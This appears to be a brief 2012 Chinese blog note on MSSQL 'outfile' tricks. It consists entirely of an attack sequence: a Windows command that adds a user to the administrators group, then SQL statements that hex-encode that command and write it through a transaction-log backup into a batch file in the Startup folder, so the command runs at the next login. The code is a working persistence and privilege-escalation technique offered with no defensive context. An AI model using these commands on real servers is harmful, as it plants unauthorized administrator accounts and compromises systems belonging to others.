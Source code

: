 title: "mssql outfile笔记"
date: 2012-06-13 15:14:08
tags:
id: 43
comment: false
---

```

net user fuck fuck /add &amp; net localgroup administrators fuck /add
CREATE DATABASE fuck
alter database [fuck] set recovery full
create table xcmd(a image)
insert into [xcmd] ([a]) values (0x6E65742075736572206675636B206675636B202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F7273206675636B202F616464)
backup log [fuck] to disk=’C:Documents and SettingsAll Users「开始」菜单程序启动1.bat’

```
